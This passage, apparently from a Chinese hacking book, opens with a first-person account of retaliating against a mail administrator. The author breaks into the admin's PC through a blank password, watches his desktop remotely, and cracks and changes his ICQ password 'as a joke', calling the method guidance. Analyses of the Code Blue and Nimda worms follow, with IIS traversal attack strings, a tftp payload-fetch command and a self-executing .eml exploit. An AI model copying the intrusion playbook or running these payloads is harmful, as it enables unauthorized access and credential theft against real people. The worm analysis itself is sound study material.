随后的日子里，我用这个邮件四处注册论坛作为我的主力邮件……（在这期间，邮件被删除了几次，每次都是我上去又添加了 kaka 这个账户）直到一日，我收到了这个 Mail Server 的管理员的警告邮件，如图6-3-1所示：



图6-3-1

邮件原文：

> Please note that you hack into our mail server, and we already report to the ...
> Please stop to doing this immediately, since we already present all the log file to the ... Please stop immediately.
> And one software company already report to the ...............

大体意思：

说我入侵了他们的 Mail Server 服务器，要我立即停止攻击，他们已经报告给有关机构，已经把记录日志文件发给了有关机构以做相关处理。

虽然我没有破坏什么，但是毕竟我被管理员警告了，心里想管理员的技术还可以吧，看看管理员是如何发现我的并且想把俺的日志文件给删除。首先我想到日志文件一般都在那个 Mail Server 的机器上，既然管理员已经发信给我了，那台 Mail Server 一定有了安全配置，要想进去是不容易了。果然，Ping 已经 Ping 不通了（可能使用防火墙隔离）：

```text
C:\Documents and Settings\kaka>ping *.*.*.*
Pinging *.*.*.* with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for *.*.*.*:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
```

既然 Ping 不通，那就暂时放一放了，我们就看看管理员的机器安全性如何，既然你的 Mail Server 服务器安全性都那么差，你的个人机器一定好不到哪去，这个就是经验了。查看邮件的原始信息：[反追踪]，如图6-3-2所示。



看到对方的IP了：

```text
Return-path: <thomson@*.com>
Received: from thomson [*.*.*.186] by *.com [*.*.*.102]
with SMTP (Mdaemon.PRO.v4.0.0.R)
for <kaka@***.com>; Fri, 29 Nov 2002 12:32:02 +0800
From: "SUCCESS—HK—Thomson" <thomson@***.com>
To: <kaka@*.com>
Subject: Illegal and criminal
Date: Fri, 29 Nov 2002 12:35:53 +0800
Message-ID: <LPBBKPHFNGCGAFONPAEDOEH_BKJAA.thomson@*.com>
MIME-Version: 1.0
*.*.*.186==>管理员的 IP。
```

于是对这个 IP 地址进行了扫描，发现管理员账号的密码竟然为空（图6-3-3）。对方看起来似乎没有安全意识，和他管理的Imail服务器一样。



先看看他在做什么，是不是正在整理我闯入的证据，选取日志。利用DameWare Mini Remote Control远程连接软件获取他的桌面（图6-3-4）：


原来他在向移动硬盘拷贝东西，看了很久，不是整理我的日志。

看看桌面右下角任务栏中都是什么东西，好多图标，如图6-3-5所示：


东西倒是不少，不过糟糕的是对方属于动态IP，下次他重新启动机器以后就不知道IP地址了，那个小飞机图标是动态域名解析ddns2go的图标，就是根据这个判断他是动态IP地址的。

既然以后不可能有机会找到他的IP，那就先看看对方的硬盘都有什么值得感兴趣的东西了。结果翻了很久，没有找到什么有价值的东西，里边只有一些订单的模板。

看了对方的任务栏，好像经常使用ICQ，那我就想和他开开玩笑，把他的ICQ密码盗走并修改！ICQ默认安装盘 c:\program files\icq\2002a\，如图6-3-6所示。


因为对方用的是最新版的ICQ，但是现在网络上破解ICQ密码的软件不支持最新版的ICQ密码解密，如2003a这个版本。还好，他的ICQ是在2002a这个版本升级到2003a的，硬盘中还保留原来的2002a的号码.dat文件。

将其copy回本地，利用icqrin15解密，如图6-3-7所示，属于弱口令，随手登陆上去把密码修改成stupidman，然后利用sock5代理给对方发了邮件，又重新注册一个kaka00z@hotmail.com，给对方发了邮件静候事态发展。

一天后，Hotmail邮箱有了2封thomson的邮件，如图6-3-8、图6-3-9所示：


后来对方的邮件服务器我也没有再进去渗透，写封邮件似乎是例行公事一般，故我以后就没有搭理对方。

## 总结：

入侵他人的机器是违法的，但我撰写这篇文章的目的只是为了表明这么一个事件及其过程，重在说明一种表现手法，宗旨还是希望网管人员提高警惕，对网络做出安全防御提供一些参考方向。

同样，入侵、反入侵、反追踪都是需要耐心和技巧的，入侵需要在最短的时间内获取目标主机的 root 权限，在对方系统中留下最少的日志甚至不留日志。

反入侵则恰恰相反，要求系统管理员在最短的时间内对管理的主机出现异常作出最快的安全检测，保留系统所有的安全日志，一一分析日志找出异常。

反追踪就是很明确了，管理员发现你的踪迹，或者发邮件给你，然后根据邮件的原始信息找出管理员的 IP，再设法进入管理员的机器，作进一步入侵渗透或者通过别的途径来进行，希望以上的手段能为一些管理员在维护系统中起到帮助作用。

### 6.4 蓝色代码详细分析

继“红色代码”蠕虫肆虐全球之后，最近国内几大杀毒软件厂商相继公布发现另一种更为厉害的网络蠕虫“蓝色代码”。为了对这种新蠕虫进行研究，本人对国内的几个网段进行了扫描，费尽九牛二虎之力终于截获了这种蠕虫的二进制程序标本，通过一段时间的分析，基本掌握了该蠕虫的感染、传播以及发作机理。

#### 一、简要介绍

经过分析发现，这个“蓝色代码”蠕虫是利用了 IIS 的 UNICODE 以及二次解码漏洞来进行传播的，它的感染方式也并不是像某些杀毒软件厂商所声称的那样是通过内存到内存的感染方式，而是利用文件复制的方法进行感染的，这是它与“红色代码”的最大不同之处。也正是因为这个原因，“蓝色代码”的传播速度远远不如它的大哥“红色代码”。

该蠕虫的主体部分共包括两部分：svchost.exe 和 httpext.dll，其中 svchost.exe 用来启动扫描线程进行传播，而 httpext.dll 则用来提升权限以及启动 httpext.dll。整个蠕虫感染传播的流程如图 6-4-1 所示：


可以看到这种蠕虫是利用 tftp 协议进行传播的，由于 tftp 协议是一种 UDP 协议，它的稳定性不太好，所以传播失败的可能性也很大。但总的来说，这个蠕虫还是有一定发展空间的，因为现在国内存在 UNICODE 和二次解码漏洞的机器非常之多。

#### 二、详细分析

下面是根据“蓝色代码”程序标本进行反汇编后的得到的汇编代码进行的详细分析结果：

- 1. tftp服务器部分

```asm
.text:00401000    push ebp
.text:00401001    mov  ebp, esp
.text:00401003    sub  esp, 1ACh
.text:00401009    lea  eax, [ebp+WSAData]
.text:0040100F    push edi
.text:00401010    push eax ; lpWSAData
.text:00401011    push 202h ; wVersionRequested
.text:00401016    call ds:WSAStartup ; 初始化Winsock DLL
.text:0040101C    xor  edi, edi
.text:0040101E    push edi ; int
.text:0040101F    push edi ; dwStackSize
.text:00401020    push offset sub_4011A1 ; int
.text:00401025    call __beginthread ; 启动tftp线程
```

可以看出程序一开始部分，首先调用WSAStartup来初始化Winsock DLL，然后紧接着调用__beginthread来开启一个sub_4011A1线程，这个就是tftp线程部分，下面我们来看看这个线程的具体内容。这个线程一开始调用CreateFileA()来打开C:\httpext.dll文件，然后将其内容读入内存：

```asm
.text:004011AF    push edi ; hTemplateFile
.text:004011B0    push 80h ; dwFlagsAndAttributes
.text:004011B5    push 3 ; dwCreationDisposition
.text:004011B7    push edi ; lpSecurityAttributes
.text:004011B8    push 1 ; dwShareMode
.text:004011BA    push 80000000h ; dwDesiredAccess
.text:004011BF    push lpFileName ; lpFileName
.text:004011C5    mov  [ebp+var_10], edi
.text:004011C8    mov  [ebp+var_9], 1
.text:004011CC    mov  [ebp+var_1], 4
.text:004011D0    xor  esi, esi
.text:004011D2    call ds:CreateFileA ; 打开C:\httpext.dll文件
......
.text:00401204    lea  eax, [ebp+NumberOfBytesRead]
.text:00401207    push edi ; lpOverlapped
.text:00401208    push eax ; lpNumberOfBytesRead
.text:00401209    mov  eax, [ebp+var_14]
.text:0040120C    sub  eax, esi
.text:0040120E    push eax ; nNumberOfBytesToRead
.text:0040120F    mov  eax, [ebp+var_1C]
.text:00401212    add  eax, esi
.text:00401214    push eax ; lpBuffer
.text:00401215    push ebx ; hFile
.text:00401216    call ds:ReadFile ; 读C:\httpext.dll文件内容
```随后调用socket()和bind()来监听UDP的69端口，即tftp端口：

```asm
.text:0040122B    push 11h    ; protocol
.text:0040122D    push 2      ; type
.text:0040122F    push 2      ; af
.text:00401231    call ds:socket
```

然后蠕虫调用recvfrom()来接收发送到本地69端口的UDP包，如果接到这样的请求包，则把已经读入内存的httpext.dll的内容分割成每个512字节的小包分别发送出去。

```asm
.text:004012C0    lea  eax, [ebp+tolen]
.text:004012C3    push eax    ; fromlen
.text:004012C4    lea  eax, [ebp+to]
.text:004012C7    push eax    ; from
.text:004012C8    push edi    ; flags
.text:004012C9    lea  eax, [ebp+buf]
.text:004012CF    push 400h   ; len
.text:004012D4    push eax    ; buf
.text:004012D5    push esi    ; s
.text:004012D6    call ds:recvfrom
```

这样就开启了tftp服务器，当有服务器来进行tftp来连接时就可以把httpext.dll发送过去，这样就实现了蠕虫的传播。需要提到的是，这并不是一个完整的tftp服务器，而仅仅具备了利用tftp协议传输httpext.dll的功能。

## 2. 删除映射部分

“蓝色代码”蠕虫除了进行自我复制以外还会在被感染主机上进行一些设置，其中主要包括：添加CodeBlue原子、通过d.vbs文件来删除映射、杀掉inetinfo.exe（IIS）进程等。下面是对这部分代码的分析：

主进程首先调用GlobalAddAtomA来添加一个名为“CodeBlue”的全局原子，估计作者的意图是为了避免重复感染，而“蓝色代码”的名字也是从这里来的：

```asm
.text:0040113C    push esi
.text:0040113D    push edi
.text:0040113E    push offset aCodeblue    ; lpString
.text:00401143    call ds:GlobalAddAtomA   ; 增加全局原子
```

随后调用一个子程序，这个子程序的作用为在注册表的HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\RUN目录中增加一个名为Domain Manager键值为C:\svchost.exe的键，使得系统每次重新启动时可以自动运行C:\svchost.exe。

```asm
.text:00401430    lea  eax, [ebp+dwDisposition]
.text:00401433    push edi
.text:00401434    push eax    ; lpdwDisposition
.text:00401435    lea  eax, [ebp+hKey]
.text:00401438    xor  edi, edi
.text:0040143A    push eax    ; phkResult
.text:0040143B    push edi    ; lpSecurityAttributes
.text:0040143C    push 0F003Fh ; samDesired
.text:00401441    push edi    ; dwOptions
.text:00401442    push edi                    ; lpClass
.text:00401443    push edi                    ; Reserved
.text:00401444    push offset aSoftwareMicros ; lpSubKey
.text:00401449    push 80000002h              ; hKey
.text:0040144E    mov  [ebp+dwDisposition], 2
.text:00401455    call ds:RegCreateKeyExA     ; 创建新注册表键
.text:0040145B    mov  esi, offset aCSvchost_exe ; "C:\\svchost.exe"
.text:00401460    push esi
.text:00401461    call _strlen
.text:00401466    pop  ecx
.text:00401467    push eax                    ; cbData
.text:00401468    push esi                    ; lpData
.text:00401469    push 1                      ; dwType
.text:0040146B    push edi                    ; Reserved
.text:0040146C    push offset aDomainManager ; lpValueName
.text:00401471    push [ebp+hKey]             ; hKey
.text:00401474    call ds:RegSetValueExA      ; 设置键值
.text:0040147A    push [ebp+hKey]             ; hKey
.text:0040147D    call ds:RegCloseKey         ; 关闭注册表
```

然后病毒把C:\盘下的svchost.exe和httpext.dll文件的文件属性设置为系统文件，这样用户通过资源管理器就无法看到这两个文件了，从而增加了蠕虫的隐藏性。

```asm
.text:00401483    push 6                      ; dwFileAttributes
.text:00401485    push esi                    ; lpFileName
.text:00401486    mov  esi, ds:SetFileAttributesA
.text:0040148C    call esi                    ; SetFileAttributesA
.text:0040148E    push 6                      ; dwFileAttributes，文件属性为系统、只读
.text:00401490    push lpFileName             ; lpFileName
.text:00401496    call esi                    ; SetFileAttributesA
.text:00401498    push 6                      ; dwFileAttributes，文件属性为系统、只读
.text:0040149A    push offset aCInetpubScript ; lpFileName
.text:0040149F    call esi                    ; SetFileAttributesA
```

紧接着蠕虫主线程调用另外一个子程序，它的作用为在C盘下产生d.vbs文件，并运行它，这个d.vbs文件是一个VBScript脚本程序，其内容为：

```vb
Dim WebService, vList, item, vFound, vSubDan, Danger, vNewCount, FoundString
Function FindMapper(Str1, Str2)
FindMapper=false
If inStr(Str2, Str1) <> 0 Then
    FoundString=FoundString & "Found " & Str1 & " !!!" & Chr(13) & Chr(10)
    FindMapper=true
End If
End Function
Function DelMapper(WebService)
Danger=Array(".ida", ".idq", ".printer")
vNewCount=0
vList=WebService.GetEx("ScriptMaps")
For Each item in vList
vFound=false
For Each vSubDan in Danger
If FindMapper(vSubDan, item)=true Then
    vFound=true
    Exit For
End If
Next
If vFound=false Then
    vNewCount=vNewCount + 1
    ReDim Preserve vNew(vNewCount)
    vNew(vNewCount-1)=item
End if
Next
WebService.PutEx 2, "ScriptMaps", vNew
WebService.SetInfo
End Function
Set WebService=GetObject("IIS://LocalHost/W3SVC")
DelMapper(WebService)
Set WebService=GetObject("IIS://LocalHost/W3SVC/1")
DelMapper(WebService)
Set WebService=GetObject("IIS://LocalHost/W3SVC/1/Root")
DelMapper(WebService)
```

可以看到它首先使用了WebService对象的ScriptMaps属性，来删除主机IIS以及第一个虚拟主机的IIS的.ida、.idq、.printer映射，这三个映射均存在缓冲区溢出漏洞，而“红色代码”以及“红色代码II”都是利用了.idq溢出进行攻击的，所以可以猜测，“蓝色代码”蠕虫删除这些映射的目的可能在于避免主机被其它类似于“红色代码”的蠕虫攻击。

在删除映射之后，蠕虫代码调用了GetVersionExA()来得到操作系统的类型，如果操作系统版本大于4的话，就转而去停止inetinfo.exe进程。

```asm
.text:0040168B    push [ebp+dwProcessId]    ; dwProcessId
.text:0040168E    push edi                  ; bInheritHandle
.text:0040168F    push 1F0FFFh             ; dwDesiredAccess
.text:00401694    call ds:OpenProcess      ; 打开inetinfo.exe进程
.text:0040169A    mov [ebp+var_24], eax
.text:0040169D    cmp eax, edi
.text:0040169F    jz short loc_4016B0
.text:004016A1    push esi                 ; uExitCode
.text:004016A2    push eax                 ; hProcess
.text:004016A3    call ds:TerminateProcess ; 终止该进程
```

## 3. 传播部分

在被感染主机上完成一系列设置动作之后，“蓝色代码”蠕虫就开始自己的最主要工作——自我传播。蠕虫从主线程中启动100个完全相同的传播线程，从而占用了大量系统资源。

在进行传播之前，蠕虫首先通过gethostbyname()来获取本主机的IP地址，代码如下：

```asm
.text:00401928    lea eax, [ebp+name]
.text:0040192E    push 100h ; namelen
.text:00401933    push eax  ; name
.text:00401934    call ds:gethostname                ; 得到本主机机器名
.text:0040193A    lea  eax, [ebp+name]
.text:00401940    push eax                          ; name
.text:00401941    call ds:gethostbyname             ; 通过机器名得到IP地址
```

在得到本主机的IP地址之后，蠕虫就进入了正式的传播线程。它首先通过调用GetSystemTime()来获得当前的系统时间，如果时间满足某个条件则进入一个攻击中联绿盟网站的子程序。

```asm
.text:004019CE    lea  eax, [ebp+SystemTime]
.text:004019D4    push eax                          ; lpSystemTime
.text:004019D5    call ds:GetSystemTime             ; 获取系统时间
.text:004019DB    movzx eax, [ebp+SystemTime.wHour]
.text:004019E2    cmp  eax, 0Ah
.text:004019E5    jle  short loc_4019F8
.text:004019E7    movzx eax, [ebp+SystemTime.wHour]
.text:004019EE    cmp  eax, 0Bh
.text:004019F1    jge  short loc_4019F8
.text:004019F3    call sub_401820                   ; 如果系统小时数大于10且小于11，则调用攻击绿盟的子函数
```

我们可以看到，在这里蠕虫作者犯了一个极为愚蠢的错误，因为系统当前的小时数值是一个整数，它肯定不会满足既大于10而又小于11的条件。所以从理论上说，程序是永远无法运行到攻击绿盟的子程序的。但是我们无法了解的是，为什么作者会选择攻击绿盟的网站呢？中联绿盟做为国内一家比较知名的网络安全公司，也许会引起其他一些商家的嫉妒，从而导致商业竞争而引发的攻击行为？在这里我们也只能进行这样的猜测了。

蠕虫接下来就产生一个随机IP地址，如果该IP的前2位大于0x7E（127），则把该IP地址的前4位换为本主机IP地址的前4位，这样就等于有50%的机会扫描本B类网段内的随机IP地址，而另外50%的可能性就会去扫描完全随机的地址。这样做显然是受到了“红色代码II”的启发，通过扫描本B类网段来提高传播的效率。

在得到随机IP之后，蠕虫就开始正式攻击，它首先连往这个IP地址的80端口，发送一个“HEAD / HTTP/1.0”请求，通过判断返回的字符串是否含有“IIS”串来判断目标主机是否运行了IIS服务器，如果不是的话，蠕虫就无法对其感染，它会回到重新产生随机IP地址那一步。

然后蠕虫就从几个目录以及编码字符串中选一个构造攻击串，其中目录字符串包括：

- scripts
- msadc
- iisadmin
- _vti_bin
- iissamples
- iishelp
- webpub

这些都是一些可能存在UNICODE或者二次编码漏洞的虚拟目录名，而编码字符串包括：

- %255c
- %c1%1c
- %c0%2f
- %c0%af
- %c1%9c
- %%35%63
- %%35c
- %25%35%63
- %252f

这些显然是UNICODE以及二次编码漏洞的解析代码，蠕虫通过构造一个下面这样的攻击串来进行攻击：

```
GET /目录名/..编码..编码..编码..编码..编码../winnt/system32/cmd.exe?/c+dir
```

例如，如果蠕虫选择攻击scripts目录和使用%255c编码串，那么它就会构造一个这样的攻击串：

```
GET /scripts/..%255c..%255c..%255c..%255c..%255c../winnt/system32/cmd.exe?/c+dir
```

这是一个典型的通过二次编码漏洞来执行dir命令的攻击，蠕虫对目标主机发送这个串，如果目标主机存在二次编码漏洞就会返回“200 OK”，这样蠕虫就继续执行其他的感染命令，而如果目标没有返回“200 OK”就说明目标主机没有这个漏洞，蠕虫就继续使用其他的目录和编码来进行攻击，直到攻击成功；如果测试完所有的目录和编码都不能成功，那么蠕虫就放弃这个IP地址，再回到重新产生IP地址的那一步。

如果发现目标主机上存在UNICODE或者二次编码漏洞，蠕虫就会利用这个漏洞在目标主机上执行`tftp -i 本主机IP get httpext.dll`命令，把C:\下的httpext.dll文件发送到目标主机上去。因为前面已经开了一个tftp服务器线程，一旦目标主机发送过来tftp请求，蠕虫中的tftp服务器线程就打开本地C:\httpext.dll文件，然后分解成小包发送过去。

然后蠕虫再次利用UNICODE或者二次编码漏洞执行`copy httpext.dll c:\`命令，把已经上传的httpext.dll文件复制到C:\下面，以便下次在被感染主机上再向其他机器发送这个文件。

最后蠕虫发送一个“GET /目录/httpext.dll”串，在目标主机上启动蠕虫。如果启动成功，httpext.dll会回显一个“CodeBlue”字符串，通过判断这个字符串就可以知道是否在目标主机上成功地感染了“蓝色代码”。

在完成对一个目标主机的攻击后，蠕虫就返回到产生随机IP的那一步，再去感染其他的主机。

## 4. httpext.dll

蠕虫为什么要使用httpext.dll来启动svchost.exe呢？这是微软IIS的一个新漏洞，IIS对普通ISAPI程序运行时赋予的权限是IUSR_NAME，而对于httpext.dll这个ISAPI则赋予SYSTEM权限，即系统的最高权限，这样启动的蠕虫就具有系统最高权限了。

那么蠕虫是怎样通过httpext.dll来启动svchost.exe的呢？由于这个httpext.dll编写的比较复杂，我分析了很长时间，仍然难以完全看清楚它的启动过程，只能进行以下推测：

httpext.dll里面包含了svchost.exe的二进制代码，它首先在C:\下面生成svchost.exe，然后运行它，最后向客户端发送“CodeBlue”字符串。

总之，这个httpext.dll的主要作用在于利用IIS对ISAPI文件名的错误权限检查漏洞来使得蠕虫可以以SYSTEM身份运行。

## 5. 攻击中联绿盟部分

虽然由于作者的失误，这一部分代码永远也不可能被执行，但是这里我们仍然来分析一下蠕虫是使用怎样的方法来企图攻击绿盟网站的。

```asm
.text:00401842    mov    word ptr [esp+10h], 2
.text:00401849    push   offset a211_99_196_135 ; cp
.text:0040184E    call   ds:inet_addr
```

```
text
.text:00401867    push edi    ; protocol
.text:00401868    push 1      ; type
.text:0040186A    push 2      ; af
.text:0040186C    call ds:socket
…
.text:00401898    lea  eax, [esp+28h+name]
.text:0040189C    push 10h    ; namelen
.text:0040189E    push eax    ; name
.text:0040189F    push esi    ; s
.text:004018A0    call ds:connect

```

随后进行攻击，即发送一个“GET /main.php?”串，紧接着发送0x4800字节的'A'字符串，后面跟一个伪装成浏览器的字符串。

```
text
.text:00401820    mov   eax, 4810h
.text:00401825    call  alloca_probe          ; 开辟一个缓冲区
.text:0040182A    push  ebx
.text:0040182B    push  ebp
.text:0040182C    push  esi
.text:0040182D    push  edi
.text:0040182E    push  4800h
.text:00401833    lea   eax, [esp+14h+arg_C]
.text:00401837    push  41h                    ; 字符'A'
.text:00401839    push eax
.text:0040183A    call _memset                ; 将缓冲区的前 0x4800 填充上 'A'
…
.text:004018C5    push  0Eh    ; len
.text:004018C7    push offset aGetMain_php?   ; "GET /main.php?" 串
.text:004018CC    push esi    ; s
.text:004018CD    call edi                    ; 调用 send() 发送上面的字符串
.text:004018CF    push  0      ; flags
.text:004018D1    lea  eax, [esp+4Ch+buf]
.text:004018D5    push  4800h  ; len
.text:004018DA    push eax    ; buf
.text:004018DB    push esi    ; s
.text:004018DC    call edi                    ; 调用 send() 发送上面的 0x4800 字节 'A'
.text:004018DE    push  0      ; flags
.text:004018E0    push offset aHttp1_1Acceptl ; 伪装浏览器的结尾字符串
.text:004018F1    push esi    ; s
.text:004018F2    call edi                    ; 调用 send() 发送上面的字符串

```

然后攻击线程休眠0x1388毫秒后结束线程，并重新开启一个扫描线程。可以看出，蠕虫企图利用向绿盟主机发送大量字符串的方法来实现D.O.S攻击。当然由于作者的失误，这一攻击在实际过程中是不可能完成的。

#### 三、总结

根据上面对“蓝色代码”蠕虫程序的详细分析可以看出，该蠕虫的危害性相对“红色代码”来说还是比较小的，因为毕竟这个“蓝色代码”的传播过程比较复杂，难以在短时间内完成感染工作，据我测试该蠕虫感染一个主机的全过程大约需要50秒左右，而且一旦在传播过程中出现一点错误，例如UDP包丢失，就会造成感染失败。

所以据我推测，“蓝色代码”蠕虫会在部分网段内流行，但无法感染大范围的网段，也无法形成“红色代码”那样的大规模的破坏性影响。

# # 6.5 尼姆达蠕虫分析与解决方案

# ## “尼姆达”蠕虫概述

同“红色代码”和“蓝色代码”一样，“尼姆达”也是通过网络对Windows操作系统进行感染的一种蠕虫型病毒。但是它与以前所有的网络蠕虫的最大不同之处在于，“尼姆达”通过多种不同的途径进行传播，而且感染多种Windows操作系统。“红色代码”和“蓝色代码”只能够利用IIS的漏洞来感染Windows 2000和Windows NT服务器，而“尼姆达”则利用了至少四种微软产品的漏洞来进行传播，而且不仅感染Windows 2000和Windows NT服务器，对于普通用户所使用的Windows 95/98/Me也同样进行感染。这使得这种蠕虫的复制和传播能力非常之强。

下面是对“红色代码”、“红色代码II”、“蓝色代码”和“尼姆达”这4种蠕虫型病毒的比较：

| 病毒名称 | 红色代码 | 红色代码 II | 蓝色代码 | 尼姆达 |
|---|---|---|---|---|
| 传播范围 | Windows 2000 | Windows 2000 | Windows 2000/NT | Windows 95/98/Me；Windows 2000/NT；Windows XP |
| 传播方式数量 | 1 | 1 | 1 | 5 |
| 利用漏洞数量 | 1 | 1 | 1 | 4 |
| 感染方式 | 内存传播 | 内存传播 | 文件复制 | 文件复制 |
| 破坏性 | 占用系统资源 | 占用系统资源，留下系统后门 | 占用系统资源 | 占用系统资源，留下系统后门 |
| 攻击性 | 攻击白宫网站 | 无 | 攻击中联系盟网站 | 无 |
| 传播速度 | 快 | 极快 | 慢 | 快 |

可以看出，与前几种的蠕虫相比，“尼姆达”最大的特点就是传播方式多种多样，传播范围极为广泛，这也正是导致该病毒不仅传播速度快，而且传播广度很大，从而增加了病毒的危害性以及消灭该病毒的难度。

# ## “尼姆达”蠕虫所利用的漏洞

“尼姆达”的传播途径很多，其中总共利用了4种微软软件的漏洞，这些漏洞都是最近一段时间网络安全界发现的微软的最新漏洞，为了便于大家了解蠕虫是如何使用这些漏洞进行传播的，我们先简单介绍一下这几种漏洞的简要情况。

+   1. 微软IE异常处理MIME头漏洞

这是微软的IE浏览器中存在的重大安全缺陷。简单来说，IE在处理MIME头中"Content-Type:"处指定的某些类型时存在问题，攻击者可以利用这类缺陷在IE客户端执行任意命令。例如将下列内容存为"test.eml"文件。

```
text
From: "xxxxx"
Subject: mail

```

[PAGE 207]

```
text
Date: Thu, 2 Nov 2000 13:27:33 +0100
MIME-Version: 1.0
Content-Type: multipart/related;
    type="multipart/alternative";
    boundary="1"
X-Priority: 3
X-MSMail-Priority: Normal
X-Unsent: 1

---1
Content-Type: multipart/alternative;
boundary="2"

---2
Content-Type: text/html;
charset="iso-8859-1"
Content-Transfer-Encoding: quoted-printable

<HTML>
<HEAD>
</HEAD>
<BODY bgColor=3D#ffffff>
<iframe src=3Dcid:THE-CID height=300 width=300></iframe>
HELLO MY FRIEND!!!<BR>
</BODY>
</HTML>

---2---

---1
Content-Type: audio/x-wav;
name="hello.bat"
Content-Transfer-Encoding: quoted-printable
Content-ID: <THE-CID>

echo OFF
dir *.*

---1

```

如果在资源管理器中双击打开这个文件，由于很多情况下"eml"扩展名和微软的Outlook/Outlook Express关联，将调用它们解释"test.eml"。由于这封邮件是HTML格式的，Outlook/Outlook Express最终调用IE来解释它。IE根据邮件内容中MIME设置，解析出附件。一般情况下，即使有附件也不会自动下载。如果做了某些设置使得某些类型的附件会自动下载，也将提示有附件需要下载，用户选择直接打开还是保存。

但是IE在解释上述邮件的时候，由于未能正确处理"Content-Type: audio/x-wav;"，导致附件"hello.bat"自动下载，而且更为严重的是下载结束后自动打开"hello.bat"，整个过程中并不提示用户。上述例子中就是最终执行了"dir *.*"命令。如果从WEB页面上访问这个eml文件，比如http://wormhost/test.eml，

[PAGE 208]

同样自动下载并无提示执行"hello.bat"。

IE在解释扩展名为eml、nws的文件时，都存在上述问题，把"test.eml"更名为"test.nws"，前述现象一致。尚未发现IE在解释其他扩展名的文件时有何缺陷，如果演示用eml文件的扩展名被修改成非eml、非nws，即使强行指定IE打开该文件，也不会触发漏洞。

这个漏洞不仅可以导致执行任意命令，而且还可以执行任意EXE文件。具体方法即使将EXE文件进行base64编码，然后附在邮件eml文件后面，这样当用户浏览邮件时就会自动去执行该EXE文件。

这个漏洞是“尼姆达”蠕虫的主要传播方法，“尼姆达”把自身代码进行base64编码之后加入到可引起自动执行漏洞的eml文件当中，保存为名为readme.eml的文件。如果用户使用Outlook或Outlook Express来接受邮件的话，当浏览蠕虫邮件时就会自动执行蠕虫文件，从而导致系统被感染。如果使用其他的邮件接受程序，例如FoxMail，则当打开附件中的readme.eml文件时也会遭到感染。

这一漏洞不仅被用来通过电子邮件进行传播，“尼姆达”还把感染过的主机中的网页文件中加入自动执行蠕虫文件的javascript程序，这样当任何人使用IE浏览器浏览被感染主机的网页时，都会遭到这个漏洞的袭击，而被感染上病毒。

